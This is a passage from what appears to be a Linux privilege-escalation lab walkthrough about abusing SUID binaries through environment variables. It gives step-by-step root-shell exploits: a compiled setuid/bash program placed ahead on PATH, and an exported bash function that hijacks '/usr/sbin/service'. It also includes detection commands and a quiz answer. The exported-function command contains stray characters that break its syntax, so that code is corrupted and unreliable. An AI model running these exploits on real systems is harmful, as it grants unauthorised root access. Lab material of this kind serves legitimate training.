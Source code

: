 **Exploitation**

**Linux VM**

1. In command prompt type: `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c`
2. In command prompt type: `gcc /tmp/service.c -o /tmp/service`
3. In command prompt type: `export PATH=/tmp:$PATH`
4. In command prompt type: `/usr/local/bin/suid-env`
5. In command prompt type: `id`

---

```
TCM@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
TCM@debian:~$
```

1. What is the last line of the "strings /usr/local/bin/suid-env" output?

`service apache2 start`

## Privilege Escalation - SUID (Environment Variables #2)

**Detection**

**Linux VM**

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command prompt type: `strings /usr/local/bin/suid-env2`
4. From the output, notice the functions used by the binary.

**Exploitation Method #1**

**Linux VM**

1. In command prompt type: `function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; 12**123:))}`
2. In command prompt type: `export -f /usr/sbin/service`
3. In command prompt type: `/usr/local/bin/suid-env2`
